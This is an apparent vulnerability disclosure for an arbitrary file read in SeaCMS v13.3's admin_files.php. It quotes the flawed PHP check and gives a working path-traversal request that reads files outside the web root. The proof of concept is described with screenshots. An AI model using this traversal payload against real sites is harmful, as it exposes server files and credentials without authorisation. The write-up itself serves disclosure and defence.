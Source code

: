   admin_files.php    Arbitrary File Reads

### Introduction

SeaCMS v13.3 has an arbitrary file read vulnerability. This vulnerability is due to the fact that, despite having restrictions on the files to be read, the restrictions are still imperfect, allowing an attacker to arbitrarily read files on the server, not just web directories, including any files on the server.

SeaCMS 官方网站： [SeaCMS - 开源免费 PHP 电影系统、电影 CMS、视频 CMS、电影 CMS、SEACMS](https://www.seacms.com/)

Click to download

![image-20250402105820409](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021122959.png)

You can see the latest version v13.3



### Vulnerability analysis and exploitation

The vulnerable code is located at : When that parameter is passed, there is no path traversal check, allowing the attacker to construct it themselves, which can be done by passing the following parameters

```
if($action=='edit')
{
	if(substr(strtolower($filedir),0,$dirlen)!=$dirTemplate){
		ShowMsg("只允许编辑附件目录！","admin_files.php");
		exit;
	}
	$filetype=getfileextend($filedir);
	if ($filetype!="html" && $filetype!="htm" && $filetype!="js" && $filetype!="css" && $filetype!="txt")
	{
		ShowMsg("操作被禁止！","admin_files.php");
		exit;
	}
	$filename=substr($filedir,strrpos($filedir,'/')+1,strlen($filedir)-1);
	$content=loadFile($filedir);
	$content = m_eregi_replace("<textarea","##textarea",$content);
	$content = m_eregi_replace("</textarea","##/textarea",$content);
	$content = m_eregi_replace("<form","##form",$content);
	$content = m_eregi_replace("</form","##/form",$content);
	include(sea_ADMIN.'/templets/admin_files.htm');
	exit();
}
```

We can construct filedir for directory traversal deletion

```
/4w8vn/admin_files.php?action=edit&filedir=../uploads/../../../../../../key.txt
```

#### Exploit POC

We can create a new test file outside the web directory to do this

![image-20250402123326469](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021241294.png)

Then construct the parameters

![image-20250402123438454](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021242691.png)



With it, we can see that the file has been read successfully

Now let's take it a step further and try to see if we can read the rest of the files on Windows

![image-20250402123635731](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021242530.png)

We can see that the files on the desktop are also read successfully



In summary, an attacker can exploit this vulnerability to read any file on the deployer's computer